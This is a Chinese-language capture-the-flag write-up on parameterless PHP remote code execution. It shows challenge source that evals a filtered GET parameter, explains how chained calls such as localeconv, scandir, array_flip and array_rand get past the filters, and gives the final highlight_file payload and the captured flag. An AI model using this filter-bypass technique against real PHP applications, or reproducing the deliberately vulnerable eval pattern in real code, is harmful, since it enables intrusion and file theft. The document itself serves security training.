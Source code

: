 ## 禁止套娃

> 无参数RCE

用githack读出源代码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```

1. 首先对当前目录进行扫描,正常来说直接用`getcwd()`就可以直接获取当前目录,但是题目过滤了`et`字符,因此需要特殊构造

`localeconv`函数返回一包含本地数字及货币格式信息的数组,关键在于其第一个元素是小数点,因此可以构造`var_dump(scandir(current(localeconv())));`来读取当前目录

返回如下数据`array(5) {  [0]=>  string(1) "."  [1]=>  string(2) ".."  [2]=>  string(4) ".git"  [3]=>  string(8) "flag.php"  [4]=>  string(9) "index.php" }`

2. 想办法对`flag.php`进行读取

首先`file_get_contents`因为关键词`et`已经被过滤,可以使用`highlight_file`进行代替

使用`array_rand`可以随机返回数组中的一个键名

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$random_keys=array_rand($a);
echo $random_keys;
echo $a[$random_keys];
?>
```

但是只使用键名不能直接读取`flag.php`,而`array_flip`可以反转/交换数组中所有的键名以及它们关联的键值

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$a=array_flip($a);
$random_keys=array_rand($a);
echo $random_keys;
?>
```

由此可以读取到`flag.php`

payload`highlight_file(array_rand(array_flip(scandir(current(localeconv())))));`

刷新多几次即可getflag`flag{f5ec0db8-27cb-47f7-8793-05b69a033364}`


